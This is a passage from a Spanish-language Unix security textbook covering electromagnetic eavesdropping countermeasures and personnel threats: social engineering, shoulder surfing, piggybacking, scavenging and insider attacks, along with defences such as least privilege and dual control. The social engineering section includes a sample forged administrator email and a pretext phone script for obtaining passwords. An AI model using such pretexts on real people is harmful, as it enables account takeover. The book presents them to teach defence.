tambi\'en del Departamento de Defensa estadounidense.\\
\\Sin embargo, nadie suele tomar precauciones contra la radiaci\'on que emite 
su monitor, su impresora o el cable de su m\'odem. Y son justamente las
radiaciones de este {\it hardware} desprotegido las m\'as
preocupantes en ciertos entornos, ya que lo \'unico que un atacante necesita
para recuperarlas es el equipo adecuado. Dicho equipo puede variar desde 
esquemas extremadamente simples y baratos -- pero efectivos -- 
(\cite{kn:hig88}) hasta complejos sistemas que en teor\'{\i}a utilizan los 
servicios de inteligencia de algunos pa\'{\i}ses. La empresa {\it 
Consumertronics} ({\tt www.tsc-global.com}) fabrica y vende diversos 
dispositivos de monitorizaci\'on, entre ellos el basado en \cite{kn:eck85}, que
se puede considerar uno de los pioneros en el mundo civil.\\
\\Pero, >c\'omo podemos protegernos contra el {\it eavesdropping} de las
radiaciones electromagn\'eticas de nuestro {\it hardware}? Existe un amplio 
abanico de soluciones, desde simples medidas de prevenci\'on hasta complejos 
-- y caros -- sistemas para apantallar los equipos. La soluci\'on m\'as barata
y simple que podemos aplicar es la {\bf distancia}: las se\~nales que se 
transmiten por el espacio son atenuadas conforme aumenta la separaci\'on de la
fuente, por lo que si definimos un per\'{\i}metro f\'{\i}sico de seguridad 
lo suficientemente grande alrededor de una m\'aquina, ser\'a dif\'{\i}cil para 
un atacante interceptar desde lejos nuestras emisiones. No obstante, esto no
es aplicable a las se\~nales inducidas a trav\'es de conductores, que aunque
tambi\'en se atenuan por la resistencia e inductancia del cableado, la p\'erdida
no es la suficiente para considerar seguro el sistema.\\ 
\\Otra soluci\'on consiste en la {\bf confusi\'on}: cuantas m\'as se\~nales
existan en el mismo medio, m\'as dif\'{\i}cil ser\'a para un atacante filtrar
la que est\'a buscando; aunque esta medida no hace imposible la 
interceptaci\'on, s\'{\i} que la dificulta enormemente. Esto se puede conseguir
simplemente manteniendo diversas piezas emisoras (monitores, terminales, 
cables\ldots) cercanos entre s\'{\i} y emitiendo cada una de ellas informaci\'on
diferente (si todas emiten la misma, facilitamos el ataque ya que aumentamos
la intensidad de la se\~nal inducida). Tambi\'en existe {\it hardware} 
dise\~nado expl\'{\i}citamente para crear ruido electromagn\'etico, generalmente
a trav\'es de se\~nales de radio que enmascaran las radiaciones emitidas por
el equipo a proteger; dependiendo de las frecuencias utilizadas, quiz\'as el
uso de tales dispositivos pueda ser ilegal: en todos los paises el
espectro electromagn\'etico est\'a dividido en bandas, cada una de las cuales
se asigna a un determinado uso, y en muchas de ellas se necesita una licencia
especial para poder transmitir. En Espa\~na estas licencias son otorgadas por
la Secretar\'{\i}a General de Comunicaciones, dependiente del Ministerio de
Fomento.\\
\\Por \'ultimo, la soluci\'on m\'as efectiva, y m\'as cara, consiste en el
uso de dispositivos certificados que aseguran m\'{\i}nima emisi\'on, as\'{\i}
como de instalaciones que apantallan las radiaciones. En el {\it hardware} hay
dos aproximaciones principales para prevenir las emisiones: una es la 
utilizaci\'on de circuitos especiales que apenas emiten radiaci\'on (denominados
de fuente eliminada, {\it source suppressed}), y la otra es la contenci\'on de
las radiaciones, por ejemplo aumentando la atenuaci\'on; generalmente ambas
aproximaciones se aplican conjuntamente (\cite{kn:swi92}). En cuanto a las
instalaciones utilizadas para prevenir el {\it eavesdropping}, la idea general
es aplicar la contenci\'on no s\'olo a ciertos dispositivos, sino a un 
edificio o a una sala completa. Quiz\'as la soluci\'on m\'as utilizada son las 
jaulas de Faraday sobre lugares donde se trabaja con informaci\'on sensible; se
trata de separar el espacio en dos zonas electromagn\'eticamente aisladas
(por ejemplo, una sala y el resto del espacio) de forma que fuera de una zona
no se puedan captar las emisiones que se producen en su interior. Para 
implementar esta soluci\'on se utilizan materiales especiales, como algunas 
clases de cristal, o simplemente un recubrimiento conductor conectado a 
tierra.\\
\\Antes de finalizar este punto quiz\'as es recomendable volver a insistir en
que todos
los problemas y soluciones derivados de las radiaciones electromagn\'eticas no 
son aplicables a los entornos o empresas normales, sino que est\'an pensados 
para lugares donde se trabaja con informaci\'on altamente confidencial, como 
ciertas empresas u organismos militares o de inteligencia. Aqu\'{\i} simplemente
se han presentado como una introducci\'on para mostrar hasta donde puede llegar
la preocupaci\'on por la seguridad en esos lugares. La radiaci\'on 
electromagn\'etica {\bf no} es un riesgo importante en la mayor\'{\i}a de 
organizaciones ya que suele tratarse de un ataque costoso en tiempo y dinero,
de forma que un atacante suele tener muchas otras puertas para intentar 
comprometer el sistema de una forma m\'as f\'acil.

\cleardoublepage
\chapter{Administradores, usuarios y personal}
\section{Introducci\'on}
Con frecuencia se suele afirmar, y no es una exageraci\'on (\cite{kn:and94}), 
que el punto m\'as d\'ebil de cualquier sistema
inform\'atico son las personas relacionadas en mayor o menor medida con \'el;
desde un administrador sin una preparaci\'on adecuada o sin la suficiente 
experiencia, hasta un guardia de seguridad que ni siquiera tiene acceso 
l\'ogico al sistema, pero que deja acceder a todo el mundo a la sala de 
operaciones, pasando por supuesto por la gran mayor\'{\i}a de usuarios, que no 
suelen conscientes de que la seguridad tambi\'en les concierne a ellos. Frente 
a cada uno de estos grupos (administradores, usuarios y personal externo al 
sistema) un potencial atacante va a comportarse de una forma determinada para 
conseguir lograr sus objetivos, y sobre cada uno de ellos ha de aplicarse una 
pol\'{\i}tica de seguridad diferente: obviamente podemos exigir a un 
administrador de sistemas unos conocimientos m\'as o menos profundos de temas
relacionados con la seguridad inform\'atica, pero esos conocimientos han de ser
diferentes para el guardia de seguridad (sus conocimientos ser\'{\i}an 
referentes a la seguridad f\'{\i}sica del entorno), y se convierten en simples
nociones b\'asicas si se trata de un usuario medio.\\
\\Hasta ahora hemos hablado de posibles ataques relacionados con el personal de
un sistema inform\'atico; sin embargo, existen otras amenazas a la seguridad
provenientes de ese personal que no son necesariamente ataques en un sentido
estricto de la palabra; en muchos casos no son intencionados, se podr\'{\i}an
catalogar como accidentes, pero el que la amenaza no sea intencionada no implica
que no se deba evitar: decir {\it `no lo hice a prop\'osito'} no va ayudar para 
nada a recuperar unos datos perdidos. En una sala de operaciones, las
personas realizan acciones sobre los sistemas bas\'andose -- en muchos casos
-- \'unicamente en su apreciaci\'on personal de lo que est\'a sucediendo; en
esas circunstancias, dichas acciones pueden ser sorprendentes y devastadoras,
incluso si provienen de los mejores y m\'as cuidadosos administradores 
(\cite{kn:nrc99}).
\section{Ataques potenciales}
\subsection{Ingenier\'{\i}a social}
La ingenier\'{\i}a social consiste en la manipulaci\'on de las personas para
que voluntariamente realicen actos que normalmente no har\'{\i}an 
(\cite{kn:fen99}); aunque a nadie le gusta ser manipulado, en algunos casos no 
es excesivamente perjudicial (por ejemplo un vendedor puede aplicar 
ingenier\'{\i}a social para conocer las necesidades de un cliente y ofrecer 
as\'{\i} mejor sus productos), si las intenciones de quien la pone en 
pr\'actica no son buenas se convierte quiz\'as el m\'etodo de ataque m\'as 
sencillo, menos peligroso para el atacante y por desgracia en uno de los m\'as 
efectivos. Ese atacante puede aprovechar el desconocimiento de unas m\'{\i}nimas
medidas de seguridad por parte de personas relacionadas de una u otra forma
con el sistema para poder enga\~narlas en beneficio propio. Por ejemplo,
imaginemos que un usuario de una m\'aquina Unix recibe el siguiente correo
electr\'onico:
\begin{quote}
\begin{verbatim}
From: Super-User <root@sistema.com>
To: Usuario <user@sistema.com>
Subject: Cambio de clave
Hola,
Para realizar una serie de pruebas orientadas a conseguir un optimo 
funcionamiento de nuestro sistema, es necesario que cambie su clave mediante
la orden 'passwd'. Hasta que reciba un nuevo aviso (aproximadamente en una
semana), por favor, asigne a su contrasenya el valor 'PEPITO' (en 
mayusculas).
Rogamos disculpe las molestias. Saludos,
                        
                                Administrador
\end{verbatim}
\end{quote}
Si el usuario no sabe nada sobre seguridad, es muy probable que siga al pie de
la letra las indicaciones de este {\it e-mail}; pero nadie le asegura que el
correo no haya sido enviado por un atacante -- es muy f\'acil camuflar el 
origen real de un mensaje --, que consigue as\'{\i} un acceso al sistema: no
tiene m\'as que enviar un simple correo, sin complicarse buscando fallos en
los sistemas operativos o la red, para poner en juego toda la seguridad. Sin 
saberlo, y encima pensando que lo hace por el bien com\'un, el usuario est\'a 
ayudando al pirata a romper todo el esquema de seguridad de nuestra m\'aquina.\\
\\Pero no siempre el atacante se aprovecha de la buena fe de los usuarios para
lograr sus prop\'ositos; tampoco es extra\~no que intente enga\~nar al 
propio administrador del sistema\footnote{Esto simplemente es para dar m\'as
credibilidad, pero no es necesario que el usuario real no haya conectado en
mucho tiempo.}. Por ejemplo, imaginemos que la m\'aquina
tiene el puerto {\it finger} abierto, y el atacante detecta un nombre de 
usuario que nunca ha conectado al sistema; en este caso, una simple llamada 
telef\'onica puede bastarle para conseguir el acceso:
\tt
\begin{quote}
$[$Administrador$]$ Buenos dias, aqu\'{\i} \'area de sistemas, en qu\'e 
podemos\\
ayudarle?\\
$[$Atacante$]$ Hola, soy Jos\'e Luis P\'erez, llamaba porque no consigo\\
recordar mi {\it password} en la m\'aquina {\it sistema.upv.es}.\\
$[$Administrador$]$ Un momento, me puede decir su nombre de usuario?\\
$[$Atacante$]$ S\'{\i}, claro, es jlperez.\\
$[$Administrador$]$ Muy bien, la nueva contrase\~na que acabo de asignarle\\
es {\it rudolf}. Por favor, nada m\'as conectar, no olvide cambiarla.\\
$[$Atacante$]$ Por supuesto. Muchas gracias, ha sido muy amable.\\
$[$Administrador$]$ De nada, un saludo.
\end{quote}
\rm
Como podemos ver, estamos en la situaci\'on opuesta a la anterior: ahora es
el {\it root} quien facilita la entrada del atacante en la m\'aquina; lo \'unico
que este ha necesitado es un nombre de usuario v\'alido.\\
\\Evidentemente, cualquier mensaje, llamada telef\'onica o similar que un 
usuario reciba debe ser puesto inmediatamente en conocimiento del administrador
del sistema; hay que recordar a los usuarios que en ning\'un caso se necesita 
su contrase\~na para realizar tareas administrativas en la m\'aquina. De la
misma forma, si es el administrador quien directamente recibe algo parecido a
lo que acabamos de ver, quiz\'as sea conveniente notificar el hecho a los
responsables de la organizaci\'on, y por supuesto poner la m\'axima atenci\'on
en la seguridad de los sistemas involucrados, ya que en este caso se sabe a
ciencia cierta que alguien intenta comprometer nuestra seguridad; en 
\cite{kn:rad97} y \cite{kn:win95} se muestran algunas de las reglas b\'asicas 
que debemos 
seguir en nuestra organizaci\'on para prevenir ataques de ingenier\'{\i}a social
y tambi\'en para, en el caso de que se produzcan, reducir al m\'{\i}nimo sus
efectos.
\subsection{{\it Shoulder Surfing}} 
Otro tipo de ataque relacionado con la ingenuidad de los usuarios del sistema 
(pero tambi\'en con el control de acceso f\'{\i}sico)
es el denominado {\it shoulder surfing}. Consiste en `espiar' f\'{\i}sicamente
a los usuarios, para obtener generalmente claves de acceso al sistema. Por
ejemplo, una medida que lamentablemente utilizan muchos usuarios para recordar
sus contrase\~nas es apuntarlas en un papel pegado al monitor de su PC o 
escribirlas en la parte de abajo del teclado; cualquiera que pase por delante 
del puesto de trabajo, sin problemas puede leer el {\it login}, {\it password}
e incluso el nombre de m\'aquina a la que pertenecen. Esto, que nos puede 
parecer una gran tonter\'{\i}a, por desgracia no lo es, y se utiliza m\'as de
lo que muchos administradores o responsables de seguridad piensan; y no s\'olo
en entornos `privados' o con un control de acceso restringido, como pueda ser
una sala de operaciones de un centro de c\'alculo, sino en lugares a los que
cualquiera puede llegar sin ninguna acreditaci\'on: personalmente, hace unos 
a\~nos pude leer claramente {\it `post-it'} pegados a los monitores de los PCs 
utilizados por el personal de informaci\'on de unos grandes almacenes de 
Valencia, en los que aparec\'{\i}an el nombre de usuario, la clave y el 
tel\'efono de
varios sistemas de la empresa; cualquiera que se acercase al mostrador 
pod\'{\i}a leer y memorizar esta informaci\'on sin problemas.\\
\\El {\it shoulder surfing} no siempre se ve beneficiado por la ingenuidad de 
los simples usuarios de un equipo; en determinadas ocasiones son los propios
programadores (gente que te\'oricamente ha de saber algo m\'as sobre seguridad
que el personal de administraci\'on o de atenci\'on al p\'ublico) los que 
dise\~nan aplicaciones muy susceptibles de sufrir ataques de este tipo. Por
ejemplo, en ciertas aplicaciones -- especialmente algunas que se ejecutan 
sobre MS Windows, y que son m\'as o menos antiguas -- muestran claramente en 
pantalla las contrase\~nas al ser 
tecleadas. Cualquiera situado cerca de una persona que las est\'a utilizando
puede leer claramente esa clave; un perfecto ejemplo de lo que {\sc no} se 
debe hacer nunca.
\subsection{Masquerading}
El ataque denominado de {\it masquerading} o mascarada consiste simplemente en
suplantar la identidad de cierto usuario autorizado de un sistema inform\'atico
o su entorno; esta suplantaci\'on puede realizarse electr\'onicamente -- un 
usuario utiliza para acceder a una m\'aquina un {\it login} y {\it password} 
que no le pertenecen -- o en persona. En este punto hablaremos brevemente de
este \'ultimo caso, la suplantaci\'on en persona, un ataque relativo tanto a
la seguridad f\'{\i}sica del entorno de operaciones como a la seguridad del
personal.\\
\\La mascarada no es un ataque habitual en entornos normales; en estos, o bien
existen \'areas de acceso semip\'ublico, donde un atacante no tiene que hacer
nada especial para conseguir acceso -- y por tanto no cabe hablar de {\it
masquerading} -- o bien \'areas de acceso restringido pero controlado por el
propio personal de la organizaci\'on, como despachos o laboratorios. En este
caso un ataque v\'{\i}a mascarada no suele ser efectivo, ya que es muy f\'acil
detectar al intruso (otro tema ser\'{\i}a si realmente se toma alguna medida al
detectarlo o simplemente se le deja seguir, ah\'{\i} ya entrar\'{\i}a en
juego la formaci\'on de los usuarios) por tratarse de \'areas dentro de las 
cuales todo el personal `habitual' se conoce. El {\it masquerading} es m\'as
habitual en entornos donde existen controles de acceso f\'{\i}sico, y donde
un intruso puede `enga\~nar' al dispositivo -- o persona -- que realiza el 
control, por ejemplo con una tarjeta de identificaci\'on robada que un lector
acepta o con un carn\'e falsificado que un guardia de seguridad da por bueno.\\ 
\\Una variante del {\it masquerading} lo constituye el ataque denominado {\it
piggybacking}, que consiste simplemente en seguir a un usuario autorizado hasta
un \'area restringida y acceder a la misma gracias a la autorizaci\'on otorgada
a dicho usuario. Contra esto se deben aplicar las mismas medidas que contra
la mascarada f\'{\i}sica: controles de acceso estrictos, y convenientemente 
verificados. Los ejemplos de {\it piggybacking} son muy habituales: desde un
atacante que se viste con un mono de trabajo y que carga con un pesado equipo 
inform\'atico en la puerta de una sala de operaciones, para que justo cuando
un usuario autorizado llegue le abra dicha puerta y le permita el acceso por 
delante del guardia de seguridad, hasta la cl\'asica an\'ecdota que todos los
auditores explican como suya, sobre el reconocedor de tarjetas inteligentes que
abre la puerta de una sala pero que una vez abierta no se preocupa en contar
cuantas personas la atraviesan, podr\'{\i}amos estar durante d\'{\i}as dando
ejemplos de ataques exitosos utilizando la t\'ecnica del {\it piggybacking}.
\subsection{Basureo}
La t\'ecnica del basureo (en ingl\'es, {\it scavenging}) est\'a relacionada
tanto con los usuarios como con la seguridad f\'{\i}sica de los sistemas, de la
que hemos hablado en el anterior cap\'{\i}tulo; consiste en obtener 
informaci\'on dejada en o alrededor de un sistema inform\'atico tras la 
ejecuci\'on de un trabajo (\cite{kn:par81}). El basureo puede ser f\'{\i}sico,
como buscar en cubos de basura ({\it trashing}, traducido tambi\'en por
{\it basureo}) listados de impresi\'on o copias de documentos, o l\'ogico, como
analizar {\it buffers} de impresoras, memoria liberada por procesos, o bloques
de un disco que el sistema acaba de marcar como libres, en busca de 
informaci\'on.\\
\\Aunque esta t\'ecnica no es muy utilizada en la mayor\'{\i}a de entornos, 
hemos de pensar
que si un usuario tira a la basura documentos que proporcionen informaci\'on 
sobre nuestro sistema, cualquier potencial atacante puede aprovechar esa 
informaci\'on para conseguir acceder al equipo; algo tan simple como una 
factura en la que se especifiquen n\'umeros de tel\'efono o nombres (reales o
de entrada al sistema) de usuarios puede convertirse en una valiosa 
informaci\'on para un atacante. Adem\'as, en ocasiones ni siquiera es necesario
andar revolviendo por los cubos de basura en busca de informaci\'on 
comprometedora: la carencia de nociones b\'asicas sobre seguridad inform\'atica
hace posible que los usuarios dejen al alcance de cualquiera informaci\'on
vital de cara a mantener un sistema seguro. Personalmente, en un aula de
inform\'atica de la Universidad Polit\'ecnica de Valencia encontr\'e por 
casualidad una hoja de papel
que estaba siendo utilizada a modo de alfombrilla para el rat\'on; esta hoja
era una carta personalizada que el director de la Escuela T\'ecnica Superior
de Ingenieros Industriales hab\'{\i}a enviado a cada alumno de esa escuela 
para informarles de sus nuevas claves de acceso a ciertos recursos de la
universidad, ya que las anteriores hab\'{\i}an tenido que ser cambiadas porque 
un pirata las captur\'o. Con esa sencilla hoja de papel (en la figura 
\ref{scav} se muestra una copia -- con los datos importantes ocultos, en
el original no hay nada `censurado' --) cualquiera podr\'{\i}a haber le\'{\i}do
el correo de ese usuario, utilizar su acceso remoto de la universidad, 
curiosear en su expediente o participar en foros de asignaturas bajo la 
identidad del usuario atacado.\\
\begin{figure}
\begin{center}

\includegraphics[width=\textwidth]{scav.png}
\caption{El resultado de un basureo involuntario.}
\label{scav}
\end{center}
\end{figure}
\\Como hemos dicho el basureo no es un ataque habitual en organizaciones
`normales', simplemente porque los datos con los que estan trabajan no suelen 
ser de alta confidencialidad. De cualquier forma, si deseamos evitar problemas 
lo m\'as inmediato es utilizar una m\'aquina trituradora de papel (su precio no 
suele ser prohibitivo, y la inversi\'on quiz\'as valga la pena) para destruir 
toda la 
documentaci\'on antes de arrojarla a la basura; incluso nos puede interesar
contratar los servicios de compa\~n\'{\i}as dedicadas exclusivamente a la
destrucci\'on de estos soportes. En el caso de sistemas de almacenamiento 
l\'ogico (discos, CD-ROMs, cintas\ldots) tambi\'en es importante una correcta
inutilizaci\'on de los mismos para que un potencial atacante no pueda extraer
informaci\'on comprometedora; no suele ser suficiente el simple borrado del
medio o un leve da\~no f\'{\i}sico (por ejemplo, partir un CD-ROM), ya que como 
comentaremos al hablar de
recuperaci\'on de datos existen empresas capaces de extraer hasta el \'ultimo
{\it bit} de un medio borrado o da\~nado. Lo m\'as efectivo ser\'{\i}a un
borrado seguro, seguido de una destrucci\'on f\'{\i}sica importante que haga
imposible la reconstrucci\'on del medio.
\subsection{Actos delictivos}
Bajo este nombre englobamos actos tipificados claramente como delitos por las
leyes espa\~nolas, como el chantaje, el soborno o la amenaza. Esto no implica
que el resto de actividades no sean (o deban ser) delitos, sino simplemente que
en la pr\'actica a nadie se le castiga `legalmente' por pasear por una sala
de operaciones en busca de claves apuntadas en teclados, pero s\'{\i} que se
le puede castigar por amenazar a un operador para que le permita el acceso al
sistema.\\
\\Por suerte, la naturaleza de la informaci\'on con la que se trabaja en la
mayor parte de
entornos hace poco probable que alguien amenaze o chantajee a un operador
para conseguir ciertos datos; al tratarse de informaci\'on poco sensible, 
en la mayor\'{\i}a de situaciones los atacantes no llegan a estos extremos para
acceder al sistema, sino que utilizan procedimientos menos arriesgados como la
ingenier\'{\i}a social o la captura de datos que viajan por la red. No obstante,
si en alguna ocasi\'on nos encontramos en estas situaciones, siempre es 
conveniente la denuncia; aunque en principio podamos ceder ante las presiones 
de un delincuente, hemos de tener presente que si mostramos cierta debilidad, 
una vez que \'este consiga sus prop\'ositos nada le va a impedir seguir 
amenaz\'andonos o chantaje\'andonos para obtener m\'as informaci\'on. Si 
actuamos con la suficiente discrecci\'on, las autoridades pueden f\'acilmente
llevar al individuo ante la justicia sin necesidad de grandes esc\'andalos que
pueden afectar gravemente a la imagen de nuestra organizaci\'on.
\section{>Qu\'e hacer ante estos problemas?}
La soluci\'on a problemas relacionados con el personal es con frecuencia mucho
m\'as compleja que la de problemas de seguridad l\'ogica o seguridad de la
red: mientras que un administrador puede aprovechar herramientas de seguridad, 
capacidades del sistema operativo, o cifrado de datos para prevenir ciertos 
ataques, es mucho m\'as dif\'{\i}cil para \'el concienciar a los usuarios de 
unas m\'{\i}nimas medidas de prevenci\'on o convencer a un guardia de seguridad
de que s\'olo deje acceder a la sala de operaciones a un n\'umero restringido de
personas.\\
\\Generalmente los usuarios de m\'aquinas Unix en entornos habituales son 
personas
muy poco formadas en el manejo del sistema operativo, y mucho menos en lo que
a seguridad inform\'atica se refiere; se suele tratar de usuarios que 
s\'olo utilizan la m\'aquina para ejecutar aplicaciones muy concretas 
(simulaciones, compiladores, gesti\'on del correo electr\'onico, aplicaciones 
cient\'{\i}ficas\ldots relacionadas con su \'area de trabajo), y cuya \'unica 
preocupaci\'on es que sus datos est\'en listos cuando
los requieren, de la forma m\'as f\'acil y r\'apida posible. Incluso el 
administrador de ciertos sistemas es uno de estos usuarios, elegido dentro del
grupo (o mucho peor, son todos los usuarios). Evidentemente, resulta muy 
dif\'{\i}cil concienciar a estas personas de la necesidad de seguridad en el
entorno; posturas como {\it `no importa que mi clave sea d\'ebil, s\'olo
utilizo la cuenta para imprimir con la l\'aser'} son por desgracia demasiado
frecuentes. El responsable de seguridad ha de concienciar a todas estas personas
de la necesidad de la seguridad para que el entorno de trabajo funcione como
se espera de \'el; la seguridad inform\'atica se ha de ver como una cadena que
se rompe si falla uno de sus eslabones: no importa que tengamos un sistema 
de cifrado resistente a cualquier ataque o una autenticaci\'on fuerte de 
cualquier entidad del sistema si un intruso es capaz de obtener un nombre de 
usuario con su correspondiente contrase\~na simplemente llamando por tel\'efono
a una secretaria.\\
\\Adem\'as de concienciaci\'on de los usuarios y administradores en cuanto
a seguridad se refiere (esto ser\'{\i}a el {\sc qu\'e}), para conseguir un 
sistema fiable es necesaria la {\bf formaci\'on} de los mismos (el {\sc 
c\'omo}). De la misma forma que a nadie se le ocurre conducir sin tener unos
conocimientos b\'asicos sobre un autom\'ovil, no deber\'{\i}a ser tan habitual
que la gente utilice o administre Unix sin unos conocimientos previos del
sistema operativo. Evidentemente, a un qu\'{\i}mico que utiliza el sistema para
simular el comportamiento de determinada sustancia bajo ciertas condiciones no
se le puede exigir un curso intensivo o unos grandes conocimientos de mecanismos
de seguridad en Unix; pero s\'{\i} que ser\'{\i}a recomendable que conozca
unas ideas b\'asicas (volviendo al ejemplo del autom\'ovil, para conducir un
coche a nadie se le exige ser un as de la mec\'anica, pero s\'{\i} unas 
cualidades m\'{\i}nimas). Estas ideas b\'asicas se pueden incluso resumir en una
hoja que se le entregue a cada usuario al darlos de alta en el sistema. Si
pasamos a hablar de administradores, s\'{\i} que ser\'{\i}a recomendable 
exigirles un cierto nivel de conocimientos de seguridad, nivel que se puede 
adquirir simplemente leyendo alg\'un libro (especialmente recomendado 
ser\'{\i}a \cite{kn:spa96} o, para los que dispongan de menos tiempo, 
\cite{kn:rcg96}).\\
\\Un grupo de personas m\'as delicado si cabe es el conjunto formado por todos
aquellos que no son usuarios del sistema pero que en cierta forma pueden llegar 
a comprometerlo. Por ejemplo, en este conjunto encontramos elementos tan 
diversos como guardias de seguridad que controlen el acceso a las instalaciones 
inform\'aticas o personal de administraci\'on y servicios que no utilicen el 
sistema pero que tengan acceso f\'{\i}sico a \'el, como electricistas, bedeles
o personal de limpieza. Sin entrar en temas que seguramente no son aplicables
a los sistemas habituales, como el espionaje industrial o el terrorismo
de alta magnitud\footnote{Temas que habr\'{\i}a que tener en cuenta en otro
tipo de redes.}, simplemente hemos de concienciar y ense\~nar a estos `usuarios'
unas medidas b\'asicas a tomar para no poner en peligro nuestra seguridad;
estas medidas dependen por supuesto de la funci\'on de cada unas personas 
realice.\\
\\Pero, >qu\'e sucede cuando el personal de nuestra propia organizaci\'on 
produce ataques (y no accidentes) sobre nuestros sistemas? En este caso las
consecuencias pueden ser grav\'{\i}simas, y por tanto las medidad de 
protecci\'on y detecci\'on han de ser estrictas. Se ha de llevar a cabo un 
control estricto de las actividades que se realizan en la organizaci\'on, por
ejemplo mediante pol\'{\i}ticas que han de ser de obligado cumplimiento, 
as\'{\i} como un control de acceso a todos los recursos de los que disponemos
(mediante mecanismos de autenticaci\'on de usuarios, alarmas, etc.). Adem\'as,
las sanciones en caso de incumplimiento de las normas han de ser efectivas y
ejemplares: si un usuario viola intencionadamente nuestra seguridad y no se
le sanciona adecuadamente, estamos invitando al resto de usuarios a que hagan
lo mismo. En el punto siguiente vamos a hablar con m\'as profundidad de estos 
atacantes, denominados {\bf internos}.
\section{El atacante interno}
En el punto anterior hemos presentado al personal de nuestra organizaci\'on
como v\'{\i}ctima de los ataques realizados por agentes externos a la misma;
sin embargo, 
seg\'un \cite{kn:cow92} el 80\% de los fraudes, robos, sabotajes o accidentes
relacionados con los sistemas inform\'aticos son causados por el propio personal
de la organizaci\'on propietaria de dichos sistemas, lo que se suele denominar
el {\it insider factor}. >Qu\'e significa esto? 
Principalmente que la mayor amenaza a nuestros equipos viene de parte de
personas que han trabajado o trabajan con los mismos. Esto, que es realmente
preocupante, lo es mucho m\'as si analizamos la situaci\'on con un m\'{\i}nimo
de detalle: una persona que trabaje codo a codo con el administrador, el
programador, o el responsable de seguridad de una m\'aquina conoce perfectamente
el sistema, sus barreras, sus puntos d\'ebiles\ldots de forma que un ataque
realizado por esa persona va a ser much\'{\i}simo m\'as directo, dif\'{\i}cil
de detectar, y sobre todo, efectivo, que el que un atacante externo (que 
necesita recopilar informaci\'on, intentar probar fallos de seguridad o 
conseguir privilegios) pueda ejecutar.\\
\\Pero, >por qu\'e va a querer alguien atacar a su propia organizaci\'on? >Por
qu\'e alguien va a arriesgarse a perder su trabajo, romper su carrera o incluso 
a ir a la
c\'arcel? Como se acostumbra a decir, todos tenemos un precio; no importa lo
honestos que seamos o que queramos creer que somos: dinero, chantaje, factores
psicol\'ogicos\ldots nos pueden arrastrar a vender informaci\'on, a robar
ficheros o simplemente a proporcionar acceso a terceros que se encarguen del
trabajo sucio. En una empresa, un empleado puede considerarse mal pagado e 
intentar conseguir un sueldo extra a base de vender informaci\'on; en un banco,
alguien que a diario trabaje con los sistemas inform\'aticos puede darse
cuenta de la facilidad para desviar fondos a una cuenta sin levantar sospechas;
en una base militar, un pa\'{\i}s enemigo puede secuestrar a la mujer de un
administrador para que \'este les pase informaci\'on confidencial. Existen
numerosos estudios (\cite{kn:syk70}, \cite{kn:cor86}, \cite{kn:hol83}, 
\cite{kn:kat88}, \cite{kn:rei89}\ldots) que tratan de explicar los motivos que 
llevan a una persona a cometer delitos, inform\'aticos o no, contra su propia 
organizaci\'on, pero sea cual sea el motivo la cuesti\'on est\'a en que tales
ataques existen, son numerosos, y hay que tomar medidas contra ellos.\\
\\>C\'omo prevenir o defendernos de los atacantes internos? En una
empresa, una norma b\'asica ser\'{\i}a verificar el {\it curriculum} de
cualquier aspirante a nuevo miembro (no simplemente leerlo y darlo por bueno,
sino comprobar los datos y directamente descartar al aspirante si se detecta
una mentira); si buscamos algo m\'as de seguridad -- por ejemplo, sistemas
militares -- tambi\'en es recomendable investigar el pasado de cada aspirante
a pertenecer a la organizaci\'on, buscando sobre todo espacios en blanco durante
los que no se sabe muy bien qu\'e ha hecho o a qu\'e se ha dedicado esa
persona (>qui\'en nos asegura que ese par\'entesis de tres a\~nos durante los
que el aspirante asegura que estuvo trabajando para una empresa extranjera no
los pas\'o realmente en la carcel por delitos inform\'aticos?). Si siguiendo
ejemplos como estos podemos asegurar la integridad de todos los que entran
a formar parte del equipo, habremos dado un importante paso en la prevenci\'on
de ataques internos.\\
\\Tampoco debemos olvidar que el hecho de que alguien entre `limpio' a nuestra
organizaci\'on no implica que vaya a seguir as\'{\i} durante el tiempo que
trabaje para nosotros, y mucho menos cuando abandone su trabajo. Para minimizar
el da\~no que un atacante interno nos puede causar se suelen seguir unos
principios fundamentales (\cite{kn:smi92}, \cite{kn:spa96}, 
\cite{kn:pla83}\ldots) que se aplican sobre el personal de la empresa:
\begin{itemize}
\item {\bf Necesidad de saber} ({\it Need to know}) o m\'{\i}nimo privilegio\\
A cada usuario se le debe otorgar el m\'{\i}nimo privilegio que necesite para
desepe\~nar correctamente su funci\'on, es decir, se le debe permitir que
sepa s\'olamente lo que necesita para trabajar. De esta forma, un programador
no tiene por qu\'e conocer las pol\'{\i}ticas de copia de seguridad de la
m\'aquina, ni un alumno tiene que poseer privilegios en un sistema de
pr\'acticas.
\item {\bf Conocimiento parcial} ({\it Dual Control})\\
Las actividades m\'as delicadas dentro de la organizaci\'on en cuanto a
seguridad se refiere (por ejemplo, el conocimiento de la clave de {\it root} de
una m\'aquina) deben ser realizadas por dos personas competentes, de forma que
si uno de ellos comete un error o intenta violar las pol\'{\i}ticas de
seguridad el otro pueda darse cuenta r\'apidamente y subsanarlo o evitarlo. De
la misma forma, aplicar este principio asegura que si uno de los responsables
abandona la organizaci\'on o tiene un accidente el otro pueda seguir operando
los sistemas mientras una nueva persona sustituye a su compa\~nero.
\item {\bf Rotaci\'on de funciones}\\
Quiz\'as la mayor amenaza al conocimiento parcial es la potencial complicidad que
los dos responsables de cierta tarea puedan llegar a establecer, de forma que
entre los dos sean capaces de ocultar las violaciones de seguridad que nuestros
sistemas puedan sufrir; incluso puede
suceder lo contrario: que ambas personas sean enemigos y esto repercuta en
el buen funcionamiento de la pol\'{\i}tica de seguridad establecida. Para evitar
ambos problemas, una norma com\'un es rotar -- siempre dentro de unos
l\'{\i}mites -- a las personas a lo largo de diferentes responsabilidades, de
